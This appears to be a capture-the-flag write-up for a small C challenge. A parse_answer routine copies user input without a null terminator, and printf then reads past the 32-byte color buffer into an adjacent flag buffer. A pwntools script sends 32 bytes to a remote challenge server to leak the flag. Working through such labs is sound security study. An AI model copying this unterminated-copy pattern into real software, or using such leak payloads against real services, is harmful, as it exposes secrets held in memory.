 We have the following source:
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

char FAVORITE_COLOR[0x20];
char FLAG[0x28];

void parse_answer(char *dst, char *src) {
    int i = 0;
    while (src[i] != '\n') i++;
    memcpy(dst, src, i);
}

int main() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);

    memset(FAVORITE_COLOR, 0, 0x20);
    char *envFlag = getenv("FLAG");
    if (envFlag) {
        strcpy(FLAG, envFlag);
    } else {
        strcpy(FLAG, "bctf{fake_flag}");
    }

    char buf[0x60];
    printf("What's your favorite color? ");
    fgets(buf, 0x60, stdin);
    parse_answer(FAVORITE_COLOR, buf);

    printf("%s!?!? Mid af color\n", FAVORITE_COLOR);

    return 0;
}
```

I spent quite a time on this challenge, but the solution is quite simple.

Let's break it down clearly: the key idea is that the `printf("%s", FAVORITE_COLOR)` function is being used to print the `FAVORITE_COLOR` buffer, but there's no proper null byte termination due to the way parse_answer works. This allows the buffer to potentially "overflow" into adjacent memory, including the FLAG buffer, and print its contents.

If we just input the exact amount size of `FAVORITE_COLOR` and remove the `null termination` at the end of it, both values of `FLAG` and `FAVORITE_COLOR` will be concated and printed to use.

Exploit code:
```python
from pwn import *

# Start the process
# p = process('./color')  # Replace with your binary
p  = remote('challs.pwnoh.io', 13370)

# Prepare the payload
# Buffer size is 32 (0x20) for FAVORITE_COLOR, overflow happens after 32 bytes
payload = b"A" * 32  # Fill FAVORITE_COLOR completely

# Send the payload to the program
p.sendline(payload)

# Receive the response
p.recvuntil("What's your favorite color? ")

# Since the program will print the contents of FAVORITE_COLOR, this should leak FLAG
response = p.recv()

# Print the leaked flag
print(response)

# Keep the process open for interaction
p.interactive()
```